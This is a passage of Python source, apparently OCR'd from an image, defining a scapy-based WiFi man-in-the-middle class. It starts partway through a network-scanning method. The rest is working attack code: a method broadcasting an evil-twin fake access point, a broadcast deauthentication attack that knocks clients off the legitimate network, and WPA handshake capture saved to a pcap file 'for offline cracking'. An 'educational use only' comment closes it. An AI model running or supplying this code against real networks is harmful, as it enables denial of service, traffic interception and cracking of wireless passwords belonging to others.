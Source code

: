 ```python
                    self.target_bssid = packet[Dot11].addr3
                    print(f"Found target: {ssid} - {self.target_bssid}")
        
        print(f"Scanning for {self.target_ssid}...")
        scapy.sniff(iface=self.interface, prn=packet_handler, timeout=30)
    
    def create_evil_twin(self):
        """Create fake access point"""
        # Create beacon frame
        beacon = (
            scapy.RadioTap() /
            Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", 
                  addr2="aa:bb:cc:dd:ee:ff", addr3="aa:bb:cc:dd:ee:ff") /
            Dot11Beacon(cap=0x1104) /
            Dot11Elt(ID="SSID", info=self.fake_ssid, len=len(self.fake_ssid)) /
            Dot11Elt(ID="Rates", info='\x82\x84\x8b\x96\x0c\x12\x18\x24') /
            Dot11Elt(ID="DSset", info='\x06')
        )
        
        print(f"Broadcasting evil twin: {self.fake_ssid}")
        while True:
            scapy.sendp(beacon, iface=self.interface, verbose=False)
            time.sleep(0.1)
    
    def deauth_attack(self):
        """Deauthenticate clients from legitimate AP"""
        if not self.target_bssid:
            return
        
        # Broadcast deauth
        deauth = (
            scapy.RadioTap() /
            Dot11(type=0, subtype=12, addr1="ff:ff:ff:ff:ff:ff",
                  addr2=self.target_bssid, addr3=self.target_bssid) /
            scapy.Dot11Deauth(reason=7)
        )
        
        print("Starting deauthentication attack...")
        for _ in range(10):
            scapy.sendp(deauth, iface=self.interface, verbose=False)
            time.sleep(0.1)
    
    def capture_handshake(self):
        """Capture WPA handshake for cracking"""
        def packet_handler(packet):
            if packet.haslayer(scapy.EAPOL):
                print("WPA handshake captured!")
                # Save packet for offline cracking
                scapy.wrpcap("handshake.pcap", packet, append=True)
        
        print("Capturing WPA handshakes...")
        scapy.sniff(iface=self.interface, prn=packet_handler, 
                   filter="ether proto 0x888e")

# Educational use only - demonstrates attack concepts
# mitm = WiFiMITM("wlan0mon", "TargetNetwork", "FreeWiFi")
# mitm.scan_networks()
```
